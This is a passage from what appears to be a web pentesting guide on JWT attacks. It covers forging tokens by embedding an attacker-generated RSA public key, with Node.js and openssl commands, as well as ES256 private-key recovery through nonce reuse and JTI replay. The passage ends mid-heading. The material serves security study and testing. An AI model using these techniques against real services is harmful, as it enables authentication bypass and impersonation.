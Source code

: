 ```
const NodeRSA = require('node-rsa');
const fs = require('fs');
n ="​ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8"​;
e = "AQAB";
const key = new NodeRSA();
var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
console.log(importedKey.exportKey("public"));
```
```
It's possible to generate a new private/public key, embeded the new public key inside the token and use it to generate a new signature:

```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
```
You can obtain the "n" and "e" using this nodejs script:

```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
keyPair = fs.readFileSync("keypair.pem");
const key = new NodeRSA(keyPair);
const publicComponents = key.exportKey('components-public');
console.log('Parameter n: ', publicComponents.n.toString("hex"));
console.log('Parameter e: ', publicComponents.e.toString(16));
```
```
Finally, using the public and private key and the new "n" and "e" values you can use [[https://jwt.io|jwt.io]] to forge a new valid JWT with any information.

### ES256: Revealing the private key with same nonce

If some applications use ES256 and use the same nonce to generate two jwts, the private key can be restored.

Here is a example: [[https://asecuritysite.com/encryption/ecd5|ECDSA: Revealing the private key, if same nonce used (with SECP256k1)]]

### JTI (JWT ID)

The JTI (JWT ID) claim provides a unique identifier for a JWT Token. It can be used to prevent the token from being replayed.\
However, imagine a situation where the maximun length of the ID is 4 (0001-9999). The request 0001 and 10001 are going to use the same ID. So if the backend is incrementig the ID on each request you could abuse this to **replay a request** (needing to send 10000 request between each successful replay).

### JWT Registered claims

[[https://www.iana.org/assignments/jwt/jwt.xhtml#claims]]

### Other attacks

**Cross-service Relay Attacks**

```